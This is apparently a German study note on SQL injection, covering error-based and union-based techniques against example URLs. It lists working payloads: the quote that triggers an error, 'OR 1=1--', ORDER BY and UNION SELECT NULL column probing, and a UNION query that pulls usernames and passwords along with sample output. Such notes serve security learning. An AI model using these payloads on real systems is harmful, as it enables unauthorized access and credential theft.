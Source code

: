 Zu unterscheiden in "Error Based" oder "Union Based".

# Error-Based
```sql
// Input
www.random.com/app.php?id =' // Das Hochkomma 
// Output
You have an error in your SQL syntax...
```
Weitere In-Band Attacken
```sql
https://insecure-website.com/products?category=Gifts'+OR+1=1--
//White-Box
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

# Union-Based
## Regeln:
- Die nummer und die Sortierung der Spalten muss in allen Queries gleich sein
- Datentypen müssen kompatibel sein

## Order by
```sql
select title, cost from product where id =1 order by 1
```
Wieviele Spalten gibt es? `order by 1 / order by 2 / ..`

## NULL Werte
```sql
select title, cost from product where id =1 UNION SELECT NULL -- 
```
### Fehlermeldung
> All querie combined usimg a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

```sql
 UNION SELECT NULL, NULL --
 ```
## Type Fuzzing
```sql
 UNION SELECT 'a', NULL --
 UNION SELECT NULL, 'a' --
 ```
 
# Beispiele
```sql
// Input
www.random.com/app.php?id =' UNION SELECT username, password FROM users \--
// Output
carlos
asdklsdf
administrator
asjklhnöshf
```
